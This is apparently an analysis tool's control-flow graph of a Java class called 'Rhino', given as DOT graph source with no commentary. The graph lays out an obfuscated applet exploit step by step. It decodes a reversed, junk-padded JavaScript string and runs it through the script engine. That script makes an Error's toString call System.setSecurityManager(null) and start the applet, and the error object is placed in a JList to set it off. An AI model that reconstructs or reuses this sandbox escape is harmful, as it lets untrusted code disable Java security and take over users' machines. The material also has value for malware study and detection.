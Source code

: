 digraph "" {
    "r0 := @this: Rhino"
    "push 0"
    "r0 := @this: Rhino"->"push 0";
    "store.i i0"
    "push 0"->"store.i i0";
    "load.i i0"
    "store.i i0"->"load.i i0";
    "push 10"
    "load.i i0"->"push 10";
    "ifcmpge.i return"
    "push 10"->"ifcmpge.i return";
    "load.r r0"
    "ifcmpge.i return"->"load.r r0";
    "push \"oop\""
    "load.r r0"->"push \"oop\"";
    "push \"oop\""->"push \"oop\"";
    "push \"js\""
    "push \"oop\""->"push \"js\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"js\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r21"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r21";
    "push 1"
    "store.r r21"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r16"
    "newarray"->"store.r $r16";
    "load.r $r16"
    "store.r $r16"->"load.r $r16";
    "load.r $r16"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "load.r r21"
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"load.r r21";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "load.r r21"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "new java.lang.StringBuffer"
    "dup1.r"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \";sitjrtht = egassem.rortjrtre;};\\\"petjrty\\\" nrutjrtter;)(trtjrtats.tetjrtlppa;)llun(rtjrteganaMytirutjrtceStes.metsyStjrt.gnatjrtl.atjrtvaj {tjrt)(noitctjrtnuf = gtjrtnirtSot.stjrtiht;tjrt)\\\"rorrtjrte yM\\\"(rotjrtrrE wetjrtn =tjrt rortjrtre ratjrtv\""
    "dup1.r"->"push \";sitjrtht = egassem.rortjrtre;};\\\"petjrty\\\" nrutjrtter;)(trtjrtats.tetjrtlppa;)llun(rtjrteganaMytirutjrtceStes.metsyStjrt.gnatjrtl.atjrtvaj {tjrt)(noitctjrtnuf = gtjrtnirtSot.stjrtiht;tjrt)\\\"rorrtjrte yM\\\"(rotjrtrrE wetjrtn =tjrt rortjrtre ratjrtv\"";
    "push \"tjrt\""
    "push \";sitjrtht = egassem.rortjrtre;};\\\"petjrty\\\" nrutjrtter;)(trtjrtats.tetjrtlppa;)llun(rtjrteganaMytirutjrtceStes.metsyStjrt.gnatjrtl.atjrtvaj {tjrt)(noitctjrtnuf = gtjrtnirtSot.stjrtiht;tjrt)\\\"rorrtjrte yM\\\"(rotjrtrrE wetjrtn =tjrt rortjrtre ratjrtv\""->"push \"tjrt\"";
    "push \"\""
    "push \"tjrt\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "pop"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"rortjrtre\""
    "dup1.r"->"push \"rortjrtre\"";
    "push \"rortjrtre\""->"push \"tjrt\"";
    "push \"tjrt\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r16";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r16"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <Rhino: javax.swing.JList misst>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <Rhino: javax.swing.JList misst>";
    "fieldput <Rhino: javax.swing.JList misst>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <Rhino: javax.swing.JList misst>"
    "load.r r0"->"fieldget <Rhino: javax.swing.JList misst>";
    "virtualinvoke <Rhino: java.awt.Component add(java.awt.Component)>"
    "fieldget <Rhino: javax.swing.JList misst>"->"virtualinvoke <Rhino: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Rhino: java.awt.Component add(java.awt.Component)>"->"pop";
    "return"
    "pop"->"return";
    "virtualinvoke <Rhino: java.awt.Component add(java.awt.Component)>"->"store.r $r16";
    "store.r $r16"->"load.i i0";
    "push 9"
    "load.i i0"->"push 9";
    "ifcmpeq.i inc.i i0 1"
    "push 9"->"ifcmpeq.i inc.i i0 1";
    "goto inc.i i0 1"
    "ifcmpeq.i inc.i i0 1"->"goto inc.i i0 1";
    "inc.i i0 1"
    "goto inc.i i0 1"->"inc.i i0 1";
    "goto load.i i0"
    "inc.i i0 1"->"goto load.i i0";
    "ifcmpge.i return"->"return";
}
